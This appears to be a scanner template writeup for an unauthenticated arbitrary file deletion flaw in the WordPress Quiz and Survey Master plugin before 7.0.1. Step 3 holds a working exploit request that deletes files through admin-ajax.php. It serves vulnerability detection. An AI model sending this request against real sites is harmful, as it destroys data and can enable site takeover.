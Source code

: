 # Wordpress Quiz and Survey Master \<7.0.1 - Arbitrary File Deletion
## Description
- Wordpress Quiz and Survey Master \<7.0.1 allows users to delete arbitrary files such as wp-config.php file, which could effectively take a site offline and allow an attacker to reinstall with a WordPress instance under their control. This occurred via qsm_remove_file_fd_question, which allowed unauthenticated deletions (even though it was only intended for a person to delete their own quiz-answer files).
- severity - critical
- tags - cve2020,wordpress,wp-plugin,wpscan,cve
## Requests
### Step - 1
```
GET /wp-content/plugins/quiz-master-next/README.md HTTP/1.1
Host: {{Hostname}}

```
### Step - 2
```
GET /wp-content/plugins/quiz-master-next/tests/_support/AcceptanceTester.php HTTP/1.1
Host: {{Hostname}}

```
### Step - 3
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBJ17hSJBjuGrnW92


------WebKitFormBoundaryBJ17hSJBjuGrnW92
Content-Disposition: form-data; name="action"

qsm_remove_file_fd_question
------WebKitFormBoundaryBJ17hSJBjuGrnW92
Content-Disposition: form-data; name="file_url"

{{fullpath}}wp-content/plugins/quiz-master-next/README.md
------WebKitFormBoundaryBJ17hSJBjuGrnW92--

```
### Step - 4
```
GET /wp-content/plugins/quiz-master-next/README.md HTTP/1.1
Host: {{Hostname}}

```
### Matchers
